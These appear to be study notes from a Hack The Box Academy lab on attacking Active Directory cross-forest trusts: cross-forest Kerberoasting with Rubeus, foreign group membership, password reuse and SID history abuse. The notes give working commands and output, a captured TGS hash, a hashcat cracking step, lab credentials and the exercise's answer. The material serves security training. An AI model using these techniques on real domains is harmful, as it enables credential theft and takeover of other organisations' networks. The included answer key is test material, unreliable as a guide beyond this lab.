

# Attacking Domain Trusts - Cross-Forest Trust Abuse - from Windows
## Cross-Forest Kerberoasting
Kerberos attacks such as Kerberoasting and ASREPRoasting can be performed across trusts, depending on the trust direction. In a situation where you are positioned in a domain with either an inbound or bidirectional domain/forest trust, you can likely perform various attacks to gain a foothold. Sometimes you cannot escalate privileges in your current domain, but instead can obtain a Kerberos ticket and crack a hash for an administrative user in another domain that has Domain/Enterprise Admin privileges in both domains.

### Enumerating Accounts for Associated SPNs Using Get-DomainUser

```pwsh
PS C:\htb> Get-DomainUser -SPN -Domain FREIGHTLOGISTICS.LOCAL | select SamAccountName

samaccountname
--------------
krbtgt
mssqlsvc
```

We see that there is one account with an SPN in the target domain. A quick check shows that this account is a member of the Domain Admins group in the target domain, so if we can Kerberoast it and crack the hash offline, we'd have full admin rights to the target domain.

### Enumerating the mssqlsvc Account

```pwsh
PS C:\htb> Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof

samaccountname memberof
-------------- --------
mssqlsvc       CN=Domain Admins,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
```

### Performing a Kerberoasting Attacking with Rubeus Using /domain Flag

```pwsh
PS C:\htb> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.2

[*] Action: Kerberoasting

[*] NOTICE: AES hashes will be returned for AES-enabled accounts.
[*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

[*] Target User            : mssqlsvc
[*] Target Domain          : FREIGHTLOGISTICS.LOCAL
[*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

[*] Total kerberoastable users : 1

[*] SamAccountName         : mssqlsvc
[*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
[*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
[*] PwdLastSet             : 3/24/2022 12:47:52 PM
[*] Supported ETypes       : RC4_HMAC_DEFAULT
[*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$<SNIP>
```

## Admin Password Re-Use & Group Membership
First attack: Password reuse across domains

```
You compromise **Domain A**
You dump credentials (cleartext or NTLM hashes)
You find a high-privileged account like:

  `Administrator`
  `Domain Admin`
  `Enterprise Admin`

Now:

Domain B has a **different account name**, but:

  Same person
  Same password 😬

Example:

Domain A → `adm_bob.smith`
Domain B → `bsmith_admin`

👉 If passwords are reused:

You can authenticate to Domain B using those creds
Boom → instant admin in Domain B
```

Second attack: Foreign group membership. Only **Domain Local Groups** can contain users from another domain/forest: 
```
Domain A has an admin user:

  `adminA` (Domain Admin)

Domain B has a group:

  `Administrators` (local admin on systems)

And inside that group:

  `DomainA\adminA` is a member

👉 That means:

`adminA` from Domain A has admin rights in Domain B

```

### Using Get-DomainForeignGroupMember
We can use the PowerView function [Get-DomainForeignGroupMember](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainForeignGroupMember/) to enumerate groups with users that do not belong to the domain, also known as `foreign group membership`.

```pwsh
PS C:\htb> Get-DomainForeignGroupMember -Domain FREIGHTLOGISTICS.LOCAL

GroupDomain             : FREIGHTLOGISTICS.LOCAL
GroupName               : Administrators
GroupDistinguishedName  : CN=Administrators,CN=Builtin,DC=FREIGHTLOGISTICS,DC=LOCAL
MemberDomain            : FREIGHTLOGISTICS.LOCAL
MemberName              : S-1-5-21-3842939050-3880317879-2865463114-500
MemberDistinguishedName : CN=S-1-5-21-3842939050-3880317879-2865463114-500,CN=ForeignSecurityPrincipals,DC=FREIGHTLOGIS
                          TICS,DC=LOCAL

PS C:\htb> Convert-SidToName S-1-5-21-3842939050-3880317879-2865463114-500

INLANEFREIGHT\administrator
```

The above command output shows that the built-in Administrators group in `FREIGHTLOGISTICS.LOCAL` has the built-in Administrator account for the `INLANEFREIGHT.LOCAL` domain as a member. 

### Accessing DC03 Using Enter-PSSession

```pwsh
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL -Credential INLANEFREIGHT\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> whoami
inlanefreight\administrator

[ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL]: PS C:\Users\administrator.INLANEFREIGHT\Documents> ipconfig /all

Windows IP Configuration

   Host Name . . . . . . . . . . . . : ACADEMY-EA-DC03
   Primary Dns Suffix  . . . . . . . : FREIGHTLOGISTICS.LOCAL
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : FREIGHTLOGISTICS.LOCAL
```

## SID History Abuse - Cross Forest
If a user is migrated from one forest to another and SID Filtering is not enabled, it becomes possible to add a SID from the other forest, and this SID will be added to the user's token when authenticating across the trust. If the SID of an account with administrative privileges in Forest A is added to the SID history attribute of an account in Forest B, assuming they can authenticate across the forest, then this account will have administrative privileges when accessing resources in the partner forest.

```
1. Attacker controls an account in Forest B. Example: CORP\jjones
2. Attacker modifies SIDHistory of this account
    Adds SID of a privileged account from Forest A. Example: SID of INLANEFREIGHT\Domain Admins
3. User authenticates across the trust to Forest A
4. Because SID filtering is OFF: that injected SID is accepted, it gets added to the access token

Result:

👉 CORP\jjones is now treated as: INLANEFREIGHT\Domain Admin

💥 Full admin access in Forest A
```



## Questions
RDP to **10.129.60.70** (ACADEMY-EA-MS01), with user `htb-student` and password `Academy_student_AD!`
1. Perform a cross-forest Kerberoast attack and obtain the TGS for the mssqlsvc user. Crack the ticket and submit the account's cleartext password as your answer. **Answer: 1logistics**
   - Cross-forest Kerberoast attack to obtain the TGS for the mssqlsvc user:
      ```pwsh
      PS C:\Tools> .\Rubeus.exe kerberoast /domain:FREIGHTLOGISTICS.LOCAL /user:mssqlsvc /nowrap

        ______        _
        (_____ \      | |
        _____) )_   _| |__  _____ _   _  ___
        |  __  /| | | |  _ \| ___ | | | |/___)
        | |  \ \| |_| | |_) ) ____| |_| |___ |
        |_|   |_|____/|____/|_____)____/(___/

        v2.0.2


      [*] Action: Kerberoasting

      [*] NOTICE: AES hashes will be returned for AES-enabled accounts.
      [*]         Use /ticket:X or /tgtdeleg to force RC4_HMAC for these accounts.

      [*] Target User            : mssqlsvc
      [*] Target Domain          : FREIGHTLOGISTICS.LOCAL
      [*] Searching path 'LDAP://ACADEMY-EA-DC03.FREIGHTLOGISTICS.LOCAL/DC=FREIGHTLOGISTICS,DC=LOCAL' for '(&(samAccountType=805306368)(servicePrincipalName=*)(samAccountName=mssqlsvc)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))'

      [*] Total kerberoastable users : 1


      [*] SamAccountName         : mssqlsvc
      [*] DistinguishedName      : CN=mssqlsvc,CN=Users,DC=FREIGHTLOGISTICS,DC=LOCAL
      [*] ServicePrincipalName   : MSSQLsvc/sql01.freightlogstics:1433
      [*] PwdLastSet             : 3/24/2022 12:47:52 PM
      [*] Supported ETypes       : RC4_HMAC_DEFAULT
      [*] Hash                   : $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$CF95A69836C5DB11AE848B2732C6A661$91C499FA15614E6383E057997EF2C0E78F07260355B1B919E3E5A021218FA1E00B88EA96382ACCFB40570D32DF30F56132853DC9AE9A17F4DC38E7A5F3AC03A850B45A24CCA420BD2091005A1ABAC24D85525AC41477786BE8CE9C85C4018256C7B5AA2EA0C6A1B1B43BF741F02C16042AFFAAC0983FA7B71282DF2CC48EB0BAE1ED5EDFFE82436854051AEF9BD7554219F7A9C392683EE5B105D6F5D7A2BEB7EA91E5B43293C323B93444CADA622851438003A754DFEE9FD71908CCB53C065F9093BCCF688D6E70F57966DC07EC6762069819B1B2D91FD9FD131497AA0A081A819750480FCB5B120251A0F41052B45A63EF9F5752534C3F3AF6FCE33454599BF7ACD7169394D25FB181333708C4FD6268EE7F0475967B2CB97CECB98A17E763C4DF79E50D924009669A66F3379FDE57732DF033D84E3499814256E77C1CFCD59DFFA321DB427203FEED77D662EA31543890438C1FF6F968C00A4FEE583DA3F1D500EEB3DAD45C8A9BB33C69A805F82E10D19AE35BD9431592523EFAA28724B49FB3E632377DB7EC7E71A0C3C09D85E56F706ABD5C18641C9C22DB73A6D25A7BDF34A8AAF6758699F4D60BFFC768CF9710708ED9098ACD7BB21DB051D61BB61D074999ED132F273D5443EADB34D0E4CDCD5DF93DA614EB755F5B48DAC9BD474A6851CCF3E7B8A9C8EE298FE4C6935780BD5160F4181EB5AB02C0ED842B1EBCB83EC8E7C1FA4A98379D4D2913885CCD2DF77DEA7A2F37110A0B73C67836F1DA7E61610FEC3E500A9DBC7C79BBA2E8C2D1C6F9C8D68082FDD392CAEEB1DD66348A8B0A841CCAED57FD542E90BB17CEA8F49DACB46586D3CDEFA4BC50302B3611182DD6898EA0D044FDCCF5A911E0C18AC40470E74C0A40E48D52B21B0620B7031A089D7DBA2E6DDF5944B8AC21A19F78924E257C7BC3DFA08C268613845B622D0CA9F27AC455582634445B35287E05018F99C0576515A4444C011725299703974E27D4F5CE9E104A23D5D7E629FF49535009CE8714E5186C0AFE5D78B39BAB28219822216C319E3F58DCBE5289B43C3B33DE6E356DCF882284AE2B2C7DA80C11B8B093FC9D3B8016B6A9CF40787263F412266161C18B18B12230A171E995DC01883B3D9492D723F8D09537CAB42D0C6AD99474C2CC0E46344D4827CD804E2561BFD17732B47ADA932D3D27FEC0DA514B6CF7C074BCFBB7450E7D1905444E8749BD459E6B5E816E3D73DE462AEF157A668D13CCF7B4F6D9D2A47C2FBB0C53354851C6C8900817A8B7158D9C6C9180818730A3A28C82F7F0671279A076EBEB7033648C01463AAA3576C26A32A0A585D55EA0FDA052A7977D18E658E8B92833DD28DA3717D8BCF7F6A9B86229A66D55F2A04D8B32EC4A98CFBE1DFB04B5249FF82CE5FA7C5AF2D22064B0EBF7FDE32A8D469999E23A71032A53071666BDD48C727F63D1668E57173DA975AF0B267FB81BE2CF27C140CE4CC24CC876751255CCCD4505E19E752E7D034E0E7E6460E5D70FF6FB94ED07DCB0B35FFD5797FDD95AD1251F6C952B4B159698B41A15B2EF6916BFC31AB53FDFF552C7774BD19BBCCD917B0E7F7E84541071B8BA43035ADBA2C1CB9CC854DA3573301C5ED6FA697F4E9202175CCA3AB0B1A7DC11593724E4B07D28324FE795A29461A0E2B9
      ```
   - Crack the hash offline using mode 13100 with hashcat:
      ```sh
      $ hashcat -m 13100 hash /usr/share/wordlists/rockyou.txt 
      <SNIP>

                $krb5tgs$23$*mssqlsvc$FREIGHTLOGISTICS.LOCAL$MSSQLsvc/sql01.freightlogstics:1433@FREIGHTLOGISTICS.LOCAL*$cf95a69836c5db11ae848b2732c6a661$91c499fa15614e6383e057997ef2c0e78f07260355b1b919e3e5a021218fa1e00b88ea96382accfb40570d32df30f56132853dc9ae9a17f4dc38e7a5f3ac03a850b45a24cca420bd2091005a1abac24d85525ac41477786be8ce9c85c4018256c7b5aa2ea0c6a1b1b43bf741f02c16042affaac0983fa7b71282df2cc48eb0bae1ed5edffe82436854051aef9bd7554219f7a9c392683ee5b105d6f5d7a2beb7ea91e5b43293c323b93444cada622851438003a754dfee9fd71908ccb53c065f9093bccf688d6e70f57966dc07ec6762069819b1b2d91fd9fd131497aa0a081a819750480fcb5b120251a0f41052b45a63ef9f5752534c3f3af6fce33454599bf7acd7169394d25fb181333708c4fd6268ee7f0475967b2cb97cecb98a17e763c4df79e50d924009669a66f3379fde57732df033d84e3499814256e77c1cfcd59dffa321db427203feed77d662ea31543890438c1ff6f968c00a4fee583da3f1d500eeb3dad45c8a9bb33c69a805f82e10d19ae35bd9431592523efaa28724b49fb3e632377db7ec7e71a0c3c09d85e56f706abd5c18641c9c22db73a6d25a7bdf34a8aaf6758699f4d60bffc768cf9710708ed9098acd7bb21db051d61bb61d074999ed132f273d5443eadb34d0e4cdcd5df93da614eb755f5b48dac9bd474a6851ccf3e7b8a9c8ee298fe4c6935780bd5160f4181eb5ab02c0ed842b1ebcb83ec8e7c1fa4a98379d4d2913885ccd2df77dea7a2f37110a0b73c67836f1da7e61610fec3e500a9dbc7c79bba2e8c2d1c6f9c8d68082fdd392caeeb1dd66348a8b0a841ccaed57fd542e90bb17cea8f49dacb46586d3cdefa4bc50302b3611182dd6898ea0d044fdccf5a911e0c18ac40470e74c0a40e48d52b21b0620b7031a089d7dba2e6ddf5944b8ac21a19f78924e257c7bc3dfa08c268613845b622d0ca9f27ac455582634445b35287e05018f99c0576515a4444c011725299703974e27d4f5ce9e104a23d5d7e629ff49535009ce8714e5186c0afe5d78b39bab28219822216c319e3f58dcbe5289b43c3b33de6e356dcf882284ae2b2c7da80c11b8b093fc9d3b8016b6a9cf40787263f412266161c18b18b12230a171e995dc01883b3d9492d723f8d09537cab42d0c6ad99474c2cc0e46344d4827cd804e2561bfd17732b47ada932d3d27fec0da514b6cf7c074bcfbb7450e7d1905444e8749bd459e6b5e816e3d73de462aef157a668d13ccf7b4f6d9d2a47c2fbb0c53354851c6c8900817a8b7158d9c6c9180818730a3a28c82f7f0671279a076ebeb7033648c01463aaa3576c26a32a0a585d55ea0fda052a7977d18e658e8b92833dd28da3717d8bcf7f6a9b86229a66d55f2a04d8b32ec4a98cfbe1dfb04b5249ff82ce5fa7c5af2d22064b0ebf7fde32a8d469999e23a71032a53071666bdd48c727f63d1668e57173da975af0b267fb81be2cf27c140ce4cc24cc876751255cccd4505e19e752e7d034e0e7e6460e5d70ff6fb94ed07dcb0b35ffd5797fdd95ad1251f6c952b4b159698b41a15b2ef6916bfc31ab53fdff552c7774bd19bbccd917b0e7f7e84541071b8ba43035adba2c1cb9cc854da3573301c5ed6fa697f4e9202175cca3ab0b1a7dc11593724e4b07d28324fe795a29461a0e2b9:1logistics
      <SNIP>        
      ```